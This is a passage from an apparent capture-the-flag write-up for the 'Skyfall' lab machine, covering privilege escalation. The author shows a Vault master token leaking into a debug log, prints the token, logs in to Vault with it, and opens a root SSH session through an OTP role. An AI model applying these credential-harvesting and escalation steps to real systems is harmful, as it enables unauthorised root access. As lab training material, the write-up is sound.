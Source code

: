 ```console
[>] Checking seal status
[+] Vault sealed: false
```

The debug option `-d` writes a `debug.log` file, but the file is written with `600` permissions and `root:root` ownership

```console
askyy@skyfall:~$ ls -l
total 8
-rw------- 1 root root  590 Jul 18 14:57 debug.log
-rw-r----- 1 root askyy  33 Jul 17 19:53 user.txt
```

By right, touching `debug.log` would force it to have `askyy:askyy` ownership, and the file should have a master token:

```console
root@skyfall:~# cat /home/askyy/debug.log
2024/07/18 15:27:35 Initializing logger...
2024/07/18 15:27:35 Reading: /etc/vault-unseal.yaml
2024/07/18 15:27:35 Security Risk!
2024/07/18 15:27:35 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/07/18 15:27:35 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/07/18 15:27:35 Check interval: 5s
2024/07/18 15:27:35 Max checks: 5
2024/07/18 15:27:35 Establishing connection to Vault...
2024/07/18 15:27:35 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/07/18 15:27:35 Checking seal status
2024/07/18 15:27:35 Vault sealed: false
```

Use master token to login as root:

```console
root@kali:~# vault login
Token (will be hidden):
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
root@kali:~# vault ssh -role admin_otp_key_role -mode otp -strict-host-key-checking=no root@10.10.11.254
Warning: Permanently added '10.10.11.254' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 27 13:20:05 2024 from 10.10.14.46
```